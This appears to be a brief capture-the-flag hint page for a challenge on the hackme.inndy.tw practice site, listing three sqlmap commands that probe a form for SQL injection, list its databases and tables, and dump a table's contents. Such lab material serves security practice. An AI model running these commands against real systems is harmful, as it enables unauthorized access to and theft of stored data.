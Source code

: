 # Sqlmap
[My Tutorial](https://www.youtube.com/watch?v=WPFxgNCyNhQ)

# Hint
- Get databases
```shell
python sqlmap.py -u "https://hackme.inndy.tw/gb/index.php?mod=LJP" --level=5 --risk=3 --data="LJPArg1=gg&LJPArg2=gg" --dbs --threads=10
```

- Get table
```shell
python sqlmap.py -u "https://hackme.inndy.tw/gb/index.php?mod=LJP" --level=5 --risk=3 --data="LJPArg1=gg&LJPArg2=gg" -D LJPDB --tables --threads=10
```

- Show all entry
```shell
python sqlmap.py -u "https://hackme.inndy.tw/gb/index.php?mod=LJP" --level=5 --risk=3 --data="LJPArg1=gg&LJPArg2=gg" -D LJPDatabase -T LJPTable --dump --threads=10
```


